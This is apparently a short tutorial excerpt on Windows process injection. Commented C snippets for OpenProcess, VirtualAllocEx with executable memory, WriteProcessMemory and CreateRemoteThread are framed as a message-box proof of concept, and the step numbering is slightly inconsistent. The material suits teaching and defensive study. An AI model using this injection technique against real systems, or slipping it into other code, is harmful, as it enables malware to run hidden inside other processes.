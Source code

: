 We will inject a message box into our local process to demonstrate a proof-of-concept to interact with memory.

The steps to write a message box to memory are outlined below,

1. Allocate local process memory for the message box.
2. Write/copy the message box to allocated memory.
3. Execute the message box from local process memory.

At step one, we can use OpenProcess to obtain the handle of the specified process.

```
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

At step two, we can use VirtualAllocEx to allocate a region of memory with the payload buffer.

```
remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof payload, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

At step three, we can use WriteProcessMemory to write the payload to the allocated region of memory.

```
WriteProcessMemory(
	hProcess, // Opened target process
	remoteBuffer, // Allocated memory region
	payload, // Data to write
	sizeof payload, // byte size of data
	NULL
);
```

At step four, we can use CreateRemoteThread to execute our payload from memory.

```
remoteThread = CreateRemoteThread(
	hProcess, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
); 
```